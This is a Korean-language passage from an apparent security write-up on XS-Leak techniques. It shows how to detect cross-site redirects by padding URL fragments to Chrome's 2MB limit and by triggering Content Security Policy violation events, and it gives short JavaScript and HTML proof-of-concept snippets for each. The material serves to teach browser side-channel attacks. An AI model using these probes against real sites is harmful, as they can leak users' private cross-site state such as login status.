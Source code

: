 2. Client-Side Errors

   Server-Side와 다르게 Client-Side에서 Error를 유발한다.

   브라우저 중 Chrome은 최대 2MB의 URL길이 한도를 가진다. 이를 넘기면 탐색이 중단되고 오류 발생 후 `about:blank` 와 같은 안전한 페이지로 전환한다.

   여기서는 #fragment를 유용하게 사용할 수 있다.

   먼저 [https://victim.com에서](https://victim.com에서) [https://victim.com/next로](https://victim.com/next로) 리다이렉션 하는 url이 있다고 가정한다.

   만약 [https://victim.com#aaaa와](https://victim.com#aaaa와) 같은 url을 요청하면은 [https://victim.com/next#aaaa로](https://victim.com/next#aaaa로) 요청을 할 것이다. 즉, fragment는 url 리다이렉션 이후에도 유지되고 URL계산에도 포함되기 때문에 이를 활용하여 URL오류를 발생시킬 수 있다.

   위의 Server-Side와 같이 fragment를 오류가 발생하는 URL길이-1만큼 길게 한 후 리다이렉션을 하면은 에러가 발생하여 리다이렉션 유무를 판할 수 있게 된다.

   ```jsx
   const L = 2_097_152; // Chrome 한도
   const pad = "A".repeat(L - 1 - 24); // 24 = 도메인 등 고정부 길이
   const url = `https://victim.com#${pad}`;

   const img = new Image();
   img.onerror = () => console.log("redirect → 길이 초과 감지");
   img.onload = () => console.log("redirect 없음");
   img.src = url; // cross-origin
   ```

   이외에도 `about:blank` 로 이동한다는 점을 활용하여 공격자는 페이지가 동일 출처에 있는지 확인하여 리다이렉션 유무를 판단할 수 있다.

### Probing Cross-Site Redirection by using CSP

Content Security Policy(CSP)를 역이용하여 Cross-Site에 Redirection이 발생했는지 여부를 확인할 수 있다. CSP에는 connect-src를 지원하는데 해당 속성이 CSP로 적용되었을때 fetch시에 connect-src에 해당되지 않는 Cross-Site로 Redirection이 발생하면은 CSP가 위반되어 `SecurityPolicyViolationEvent` 를 트리거 한다.

```html
<meta
  http-equiv="Content-Security-Policy"
  content="connect-src https://example.com"
/>
<script>
  document.addEventListener("securitypolicyviolation", () => {
    console.log("Redirection 발생");
  });

  fetch("https://example.com/might_redirect", {
    mode: "no-cors",
    credentials: "include",
  });
</script>
```

connect-src이외에도 script-src등 다양한 속성을 사용해서도 확인할 수 있다.

```html
<meta
  http-equiv="Content-Security-Policy"
  content="connect-src https://jstest-cenqt.run.goorm.site"
/>
<script>
  document.addEventListener("securitypolicyviolation", (e) => {
    console.log("Redirection 발생");
  });
</script>
<script src="https://jstest-cenqt.run.goorm.site/redirect"></script>
```
